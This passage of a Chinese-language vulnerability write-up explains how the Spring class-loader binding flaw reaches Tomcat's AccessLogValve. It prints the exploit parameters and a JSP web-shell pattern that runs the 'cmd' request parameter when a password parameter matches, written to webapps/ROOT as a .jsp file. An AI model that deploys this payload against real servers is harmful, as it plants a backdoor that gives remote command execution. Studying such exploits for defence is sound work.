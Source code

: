 ```Java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                org.apache.catalina.webresources.StandardRoot.getContext()
                    org.apache.catalina.core.StandardContext.getParent()
                        org.apache.catalina.core.StandardHost.getPipeline()
                            org.apache.catalina.core.StandardPipeline.getFirst()
                                org.apache.catalina.valves.AccessLogValve.setPattern()
```

可以看到，`pattern`参数最终对应`AccessLogValve.setPattern()`，即将`AccessLogValve`的`pattern`属性设置为如下符合 access_log 的文件内容的格式。

> 具体格式可以参考https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html#Access_Logging

```
%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
```

攻击报文中的如下内容的添加也是为了符合 access_log 格式。

```
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

最终的 jsp 马如下：(图中为了清楚，使用 vscode 格式化了一下)

![image-20230524145857077](./img/spring/image-20230524145857077.png)

**`suffix`参数**

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.suffix`
- 参数值：`.jsp`

按照`pattern`参数相同的调试方法，`suffix`参数最终将`AccessLogValve.suffix`设置为`.jsp`，即 access_log 的文件名后缀。

**`directory`参数**

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.directory`
- 参数值：`webapps/ROOT`

按照`pattern`参数相同的调试方法，`directory`参数最终将`AccessLogValve.directory`设置为`webapps/ROOT`，即 access_log 的文件输出目录。

